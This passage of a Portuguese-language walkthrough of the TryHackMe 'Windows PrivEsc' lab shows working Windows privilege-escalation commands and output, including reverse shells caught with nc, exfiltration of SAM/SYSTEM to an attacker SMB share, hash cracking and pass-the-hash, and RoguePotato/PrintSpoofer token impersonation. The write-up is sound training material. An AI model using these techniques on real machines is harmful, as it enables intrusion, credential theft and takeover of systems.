    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x61ced822a
    ShutdownFlags    REG_DWORD    0x7
    AutoAdminLogon    REG_SZ    0
    AutoLogonSID    REG_SZ    S-1-5-21-3025105784-3259396213-1915610826-1001
    LastUsedUsername    REG_SZ    admin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

Podemos ver que a chave `DefaultUserName` está configurada para o valor `admin`, porém não foi mostrada a senha, por isso vamos utilizar a senha que o propio laboratorio nos da `password123`.

Então vamos utilizar o `winexe` com o usuario `admin` e a senha `password123` para obter acesso como `admin`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:10:58
╰──➤ winexe -U 'admin%password123' //10.10.5.221 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

e para concluir esse tópico bastar informar qual foi a senha que você utilizou para obter acesso como `admin`.



---

## **<a id="10"> • Passwords - Saved Creds</a>**

Aqui vamos utilizar o comando `cmdkey /list` para listar as credenciais salvas.

```powershell
PS C:\PrivEsc> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Note que as credenciais para o usuario `admin` estão salvas, então vamos utilizar o `runas` para obter acesso como `admin`.

```powershell
PS C:\PrivEsc> runas /savecred /user:admin C:\PrivEsc\reverse.exe
Attempting to start C:\PrivEsc\reverse.exe as user "WIN-QBA94KB3IOF\admin" ...
```

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:16:15
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.5.221] 49791
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

E para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="11"> • Passwords - Security Account Manager (SAM)</a>**

Os arquivos SAM e SYSTEM podem ser usados para extrair hashes de senha do usuário.

Então para extrair os hash primeiro temos que enviar os arquivos para o nosso computador, para isso vamos utilizar o servidor smb que utilizamos anteriormente.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         21:27:28
╰──➤ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.5.221,49838)
[*] AUTHENTICATE_MESSAGE (WIN-QBA94KB3IOF\user,WIN-QBA94KB3IOF)
[*] User WIN-QBA94KB3IOF\user authenticated successfully
[*] user::WIN-QBA94KB3IOF:aaaaaaaaaaaaaaaa:595374223e37ada83202e66d29231102:0101000000000000800e45985446d901c95db7d56399bc450000000001001000770062006b007600530064005600790003001000770062006b0076005300640056007900020010006c0050007900730074004f006b004d00040010006c0050007900730074004f006b004d0007000800800e45985446d9010600040002000000080030003000000000000000000000000020000036a975d756f9a0bf750cfdc69c5b9331eb8a57715e675a18973ee713ed4d04fc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310038002e00320030002e0032003300000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:KALI)
[*] Closing down connection (10.10.5.221,49838)
[*] Remaining connections []
[*] Incoming connection (10.10.5.221,49841)
[*] AUTHENTICATE_MESSAGE (WIN-QBA94KB3IOF\user,WIN-QBA94KB3IOF)
[*] User WIN-QBA94KB3IOF\user authenticated successfully
[*] user::WIN-QBA94KB3IOF:aaaaaaaaaaaaaaaa:f2a1925824c68fef1094207d6ab440f5:010100000000000080de57ab5446d901a59fbc1f723a0d550000000001001000770062006b007600530064005600790003001000770062006b0076005300640056007900020010006c0050007900730074004f006b004d00040010006c0050007900730074004f006b004d000700080080de57ab5446d9010600040002000000080030003000000000000000000000000020000036a975d756f9a0bf750cfdc69c5b9331eb8a57715e675a18973ee713ed4d04fc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310038002e00320030002e0032003300000000000000000000000000
[*] Disconnecting Share(1:KALI)
[*] Closing down connection (10.10.5.221,49841)
[*] Remaining connections []
```

e na maquina alvo vamos utilizar os seguinte comandos:

```powershell
PS C:\Users\user\Desktop> copy C:\Windows\Repair\SAM \\10.18.20.23\kali\
PS C:\Users\user\Desktop> copy C:\Windows\Repair\SYSTEM \\10.18.20.23\kali\
```

Agora vamos utulizar uma ferramenta chamada `creddump7` para extrair os hashes.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:00:47
╰──➤ python3 /usr/share/creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

Vamos usar o `johntheripper` para quebrar a senha do usuário `admin`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:01:11
╰──➤ echo admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da::: > hash.txt

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:02:58
╰──➤ cat hash.txt
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:03:02
╰──➤ john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (admin)
1g 0:00:00:00 DONE (2023-02-21 22:03) 1.492g/s 2292p/s 2292c/s 2292C/s teacher..mexico1
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

E para concluir esse topico vamos informar qual o hash encontrado.



---

## **<a id="12"> •  Passwords - Passing the Hash</a>**

Nesse topico vamos utilizar a hash encontrada para fazer o login no sistema.

E para isso iremos utilizar uma ferramenta chamada `pth-winexe`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:14:54
╰──➤ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.244.78 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>
```

E para concluir esse topico vamos clicar no botão `Completed`:


---

## **<a id="13"> • Scheduled Tasks</a>**

Vamos dar uma olhada no contéudo do script `C:\DevTools\CleanUp.ps1`:

```powershell
PS C:\PrivEsc> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```

O script estar sendo executado como SYSTEM a cada minuto. Usando `accesschk.exe`, observe que podemos gravar neste arquivo:

```powershell
PS C:\PrivEsc> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
 FILE_ADD_FILE
 FILE_ADD_SUBDIRECTORY
 FILE_APPEND_DATA
 FILE_EXECUTE
 FILE_LIST_DIRECTORY
 FILE_READ_ATTRIBUTES
 FILE_READ_DATA
 FILE_READ_EA
 FILE_TRAVERSE
 FILE_WRITE_ATTRIBUTES
 FILE_WRITE_DATA
 FILE_WRITE_EA
 DELETE
 SYNCHRONIZE
 READ_CONTROL
```

Então vamos escrever nosso payload no arquivo `C:\DevTools\CleanUp.ps1` utilizando o comando `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1` e esperar por uma conexão reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:29:11
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.244.78] 49816
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

E para concluir esse topico vamos clicar no botão `Completed`.

---

## **<a id="14"> • Insecure GUI Apps</a>**

Na Area de Trabalho temos um arquivo chamado `AdminPaint`. Ao abrir ele e veridicar seu processo vemos que ele esta sendo executado como `admin`:

```powershell
PS C:\Users\user\Desktop> tasklist /V | findstr mspaint.exe
mspaint.exe                    384 RDP-Tcp#0                  2     29,272 K Running         WIN-QBA94KB3IOF\admin                                   0:00:00 Untitled - Paint 
```

Sabendo disso podemos tentar abrir o arquivo `C:\Windows\System32\cmd.exe` com o `AdminPaint`. Para isso vamos em `File` > `Open` e vamos colocar no input de navegação: `file://c:/windows/system32/cmd.exe`:


Com isso vamos abrir o `cmd.exe` como `admin`:

```cmd
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\admin\Pictures>whoami
win-qba94kb3iof\admin
```

E para concluir esse topico vamos clicar no botão `Completed`.

---

## **<a id="15"> • Startup Apps</a>**

Usando o `accesschk.exe` notamos que nosso usuário `user` tem permissão de escrita nos arquivos `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`:

```powershell
PS C:\Users\user\Desktop> C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

Então usando o `cscript` vamos criar um novo atalho para o exploit `reverse.exe` no diretório StartUp:

```powershell
PS C:\Users\user\Desktop> cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

E então vamos reiniciar o sistema com o comando `rdesktop -u admin 10.10.244.78` logando como `admin` e esperar por uma conexão reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:35:20
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.244.78] 49892
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Agora vamos clicar no botão `Completed` para concluir esse topico.

---

## **<a id="16"> • Token Impersonation - Rogue Potato</a>**

Para explorar essa vulnerabilidade primeiramente temos que configurar um redirecionador socat no Kali, encaminhando a porta Kali 135 para a porta 9999 no Windows:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:52:34
╰──➤ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.244.78:9999

```

Agora vamos logar como admin no Windows utilizando o `rdesktop 10.10.244.78` e as credenciais `admin:password`:

<div class="page"/>

Vamos abrir o powershell como administador e executar o comando ` C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`:

```powershell
PS C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\PrivEsc\reverse.exe exited on WIN-QBA94KB3IOF with error code 0.
```

dessa forma conseguimos uma conexão reversa como `nt authority\local service`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         23:18:29
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49759
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service

C:\Windows\system32>
```

Agora nessa shell vamos utilizar o comando `C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999` para executar o `reverse.exe` como `nt authority\system`:

```powershell
C:\Windows\system32>C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999
C:\PrivEsc\RoguePotato.exe -r 10.18.20.23 -e "C:\PrivEsc\reverse.exe" -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: C:\PrivEsc\reverse.exe
[+] RoguePotato gave you the SYSTEM powerz :D
```

Dessa forma conseguimos uma conexão reversa como `nt authority\system`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           23:13:20
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49801
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Agora vamos responder as perguntas do topico:

1. Name one user privilege that allows this exploit to work.

    - `SeImpersonatePrivilege`

2. Name the other user privilege that allows this exploit to work.

    - `SeAssignPrimaryTokenPrivilege`

Concluindo assim o topico.


---

<div class="page"/>

## **<a id="17"> • Token Impersonation - PrintSpoofer</a>**

Da mesma forma que o topico anterior, precisamos logar com o usuario `admin` no Windows utilizando o Agora vamos logar como admin no Windows utilizando o `rdesktop 10.10.244.78` e as credenciais `admin:password`:

Vamos abrir o powershell como administador e executar o comando ` C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`:

```powershell
PS C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\PrivEsc\reverse.exe exited on WIN-QBA94KB3IOF with error code 0.
```

dessa forma conseguimos uma conexão reversa como `nt authority\local service`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         23:32:50
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49840
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service
```

agora utilizando a shell que temos como `nt authority\local service` vamos executar o comando `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

```powershell
C:\Windows\system32>C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Dessa forma utilizando o `PrintSpoofer` conseguimos uma conexão reversa como `nt authority\system`:

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           23:32:49
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49842
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Para concluir o topico basta clicar no botão `Completed`.

---

## **<a id="18"> • Privilege Escalation Scripts</a>**

Nesse topicos vemos algumas ferramentas que podem automatizar o processo de escalada de privilégios. São elas:

- winPEASany.exe:
    > winPEASany.exe é um script que procura erros de configuração comuns do Windows Privilege Escalation. É um script do PowerShell que pode ser executado em uma máquina Windows sem nenhuma instalação prévia ou configuração de política de execução. Também é multiarquitetura, portanto pode ser executado em sistemas x86 e x64.

- Seatbelt.exe: 
    > O Seatbelt é uma ferramenta de pós-exploração executada no Windows e tenta enumerar informações de configuração do sistema e da rede que podem ser úteis para um invasor. É uma porta C# do projeto Seatbelt original, que foi escrito em PowerShell.

- PowerUp.ps1:
    > PowerUp é um script do PowerShell que verifica vetores comuns de escalonamento de privilégios do Windows. É um script do PowerShell que pode ser executado em uma máquina Windows sem nenhuma instalação prévia ou configuração de política de execução.

- SharpUp.exe:
    > SharpUp é uma versão C# do PowerUp. É uma versão de portabilidade em C# do projeto PowerUp original, que foi escrito em PowerShell.

---



---

## **<a id="19">• Dificuldades.</a>**

*A única dificuldade foi que as maquinas reiniciavam com frequência, levando mas tempo do que o esperado para concluir os desafios.* 

---

## **<a id="20">• Conclusão.</a>**

Em resumo, a **escalação de privilégios** no Windows é uma ameaça real e pode permitir que invasores comprometam a segurança de um sistema. É importante tomar medidas preventivas para minimizar o risco de ataques, como manter o sistema operacional e aplicativos atualizados, usar senhas fortes e limitar o acesso privilegiado apenas aos usuários que precisam dele. Além disso, o uso de ferramentas de segurança, como o Controle de Conta de Usuário e a Proteção de Acesso ao Kernel, pode ajudar a proteger o sistema contra a **escalação de privilégios**.

Por isso, é essencial que os usuários de Windows sejam conscientes da importância da segurança cibernética e adotem práticas de segurança sólidas para minimizar o risco de ataques maliciosos. Com uma abordagem proativa para a segurança, é possível reduzir a probabilidade de comprometimento do sistema e garantir que os dados confidenciais permaneçam seguros e protegidos.

---

## **<a id="21">• Referências.</a>**

- [Delinea - Privilege Escalation on Windows](https://delinea.com/blog/windows-privilege-escalation)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="22">• Laboratório.</a>**

  - [Windows PrivEsc](https://tryhackme.com/room/windows10privesc)


